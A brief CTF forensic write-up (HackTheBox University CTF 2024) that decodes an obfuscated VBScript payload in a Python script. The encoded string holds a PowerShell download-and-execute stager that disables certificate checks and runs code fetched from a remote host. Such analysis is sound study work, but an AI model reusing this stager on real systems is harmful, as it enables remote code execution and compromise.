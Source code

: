 ```yaml
---
title: "HackTheBox University CTF 2024 - Forensic Writeup"
pubDate: "2024-12-17"
description: '3/4 Forensic Write Up on  HackTheBox University CTF 2024'
---
```


## Foren/Frontier
94.237.54.116:52327, access the docker url
![image](https://github.com/user-attachments/assets/7436fe89-3fd9-42f4-a7bf-efba75220510)
base64 encoded flag in the bash history

## Foren/Wanted
![image](https://github.com/user-attachments/assets/934a70b8-5b88-4683-9640-fcf2c5f30bee)

Url decode
![image](https://github.com/user-attachments/assets/f7b83bc5-0cfa-4bd3-969b-a5329bac14dc)

Decode vbscript
![image](https://github.com/user-attachments/assets/0a474caa-4b78-4c20-9ce4-a39824e5ce4f)

Donlot vbscript
![image](https://github.com/user-attachments/assets/0348e806-7a3e-44eb-a761-23deca0e084d)

This func is sus, its some arrenged base64 executed as payload, try to deobfuscate it and then decode

```
import base64
def descortinar(data, pattern, replacement):
    """
    Mimics the VBScript `descortinar` function to replace obfuscation patterns.
    """
    return data.replace(pattern, replacement)

# Obfuscated Base64-like string
latifoliado = (
    "U2V0LUV4ZWN1dGlvblBvbGljeSBCeXBhc3MgLVNjb3BlIFByb2Nlc3MgLUZvcmNlOyBbU3lzdGVtLk5ldC5TZd2FudGVkCgXJ2aWNlUG9pbnRNYW5hZ2VyXTo6U2VydmVyQ2VydGlmaWNhdGVWYWxpZGF0aW9uQ2FsbGJhY2sgPSB7JHRydWV9O1td2FudGVkCgTe"
    "XN0ZW0uTmV0LlNlcnZpY2VQb2ludE1hbmFnZXJdOjpTZWN1cml0eVByb3RvY29sID0gW1N5c3RlbS5OZXQuU2Vydmld2FudGVkCgjZVBvaW50TWFuYWdlcl06OlNlY3VyaXR5UHJvdG9jb2wgLWJvciAzMDcyOyBpZXggKFtTeXN0ZW0uVGV4dC5FbmNvZd2FudGVkCgGl"
    "uZ106OlVURjguR2V0U3RyaW5nKFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoKG5ldy1vYmplY3Qgcd2FudGVkCg3lzdGVtLm5ldC53ZWJjbGllbnQpLmRvd25sb2Fkc3RyaW5nKCdodHRwOi8vd2FudGVkLmFsaXZlLmh0Yi9jZGJhL19d2FudGVkCgyc"
    "CcpKSkpd2FudGVkCgd2FudGVkCg"
)

parrana = "d2FudGVkCg"

# Step 1: Remove obfuscation patterns
decoded_data = descortinar(latifoliado, parrana, "")

# Step 2: Decode the Base64 string
def base64_decode(data):
    try:
        return base64.b64decode(data).decode('utf-8')
    except Exception as e:
        return f"Error decoding Base64: {e}"
```